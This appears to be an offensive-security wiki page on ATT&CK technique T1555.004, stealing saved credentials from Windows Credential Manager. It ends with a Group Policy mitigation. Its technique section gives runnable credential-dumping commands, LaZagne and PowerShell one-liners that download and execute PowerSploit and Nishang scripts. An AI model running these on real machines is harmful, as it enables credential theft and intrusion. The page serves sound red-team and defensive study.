



# Windows Credential Manager

**ATT\&CK ID:** [**T1555.004**](https://attack.mitre.org/techniques/T1555/004/)****

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>** | **<mark style="color:red;">**SYSTEM**</mark>** | **<mark style="color:green;">**User**</mark>

**Description**

Adversaries may acquire credentials from the Windows Credential Manager. The Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos in Credential Lockers (previously known as Windows Vaults).[\[1\]](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565\(v=ws.11\)#credential-manager-store)[\[2\]](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-8.1-and-8/jj554668\(v=ws.11\)?redirectedfrom=MSDN)

The Windows Credential Manager separates website credentials from application or network credentials in two lockers. As part of [Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003), Internet Explorer and Microsoft Edge website credentials are managed by the Credential Manager and are stored in the Web Credentials locker. Application and network credentials are stored in the Windows Credentials locker.

Credential Lockers store credentials in encrypted `.vcrd` files, located under `%Systemdrive%\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`. The encryption key can be found in a file named `Policy.vpol`, typically located in the same folder as the credentials.[\[3\]](https://www.passcape.com/windows\_password\_recovery\_vault\_explorer)[\[4\]](https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/)

Adversaries may list credentials managed by the Windows Credential Manager through several mechanisms. `vaultcmd.exe` is a native Windows executable that can be used to enumerate credentials stored in the Credential Locker through a command-line interface. Adversaries may gather credentials by reading files located inside of the Credential Lockers. Adversaries may also abuse Windows APIs such as `CredEnumerateA` to list credentials managed by the Credential Manager.[\[5\]](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credenumeratea)[\[6\]](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-credential-manager-saved-credentials)

Adversaries may use password recovery tools to obtain plain text passwords from the Credential Manager.[\[4\]](https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/)

## Techniques

### LaZagne

```
LaZagne.exe windows
```



### Get-VaultCredential (PowerSploit)

```powershell
iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-VaultCredential.ps1"); Get-VaultCredential
```



### Get-WebCredentials (Nishang)

**Github:** [https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)

```powershell
powershell iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1"); Get-WebCredentials
```


## Mitigation

### **Group Policy**

**Policy Description**

This security setting determines whether Credential Manager saves passwords and credentials for later use when it gains domain authentication.

**Policy name**

`Network access: Do not allow storage of passwords and credentials for network authentication`

**Location**

`Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options`

**Value**

`Enabled`

**Reference**




